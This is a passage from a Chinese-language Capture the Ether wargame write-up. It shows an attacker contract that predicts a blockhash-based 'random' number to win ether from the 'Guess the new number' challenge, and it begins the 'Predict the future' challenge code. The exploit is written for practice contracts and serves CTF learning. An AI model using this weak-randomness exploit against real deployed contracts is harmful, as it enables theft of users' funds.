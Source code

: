```solidity
        if (n == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}


contract attacker {
    function attack() public payable {
        uint8 result = uint8(keccak256(block.blockhash(block.number - 1), now));

      // 创建了一个名为target的合约实例，
      // 并将指定的地址0xE8BE7654f6C8C23026939901b80530dCf0AfCA75传递给构造函数。
      // 然后，使用target实例调用了名为guess的函数，同时向其发送了1以太币的价值，
      // 并将之前计算得到的result作为参数传递给该函数
        GuessTheNewNumberChallenge target = GuessTheNewNumberChallenge(0xE8BE7654f6C8C23026939901b80530dCf0AfCA75);
        target.guess.value(1 ether)(result);
    }

}
```



最好是有个fallback函数以便我们调用attack函数时发送1 ether，接下来就很简单，部署攻击合约以后调用attack函数并发送1 ether

![img](https://p4.ssl.qhimg.com/t01c6c85e4e4b249cf0.jpg)

挑战完成，check进入下一关



## Predict the future

### 1.题目

This time, you have to lock in your guess before the random number is generated. To give you a sporting chance, there are only ten possible answers.

Note that it is indeed possible to solve this challenge without losing any ether.



这一次，您必须在生成随机数之前锁定您的猜测。为了给你一个运动的机会，只有十个可能的答案。

请注意，确实有可能在不损失任何以太币的情况下解决这一挑战。

```solidity
pragma solidity ^0.4.21;

contract PredictTheFutureChallenge {
    address guesser;
    uint8 guess;
    uint256 settlementBlockNumber;

    function PredictTheFutureChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(uint8 n) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

```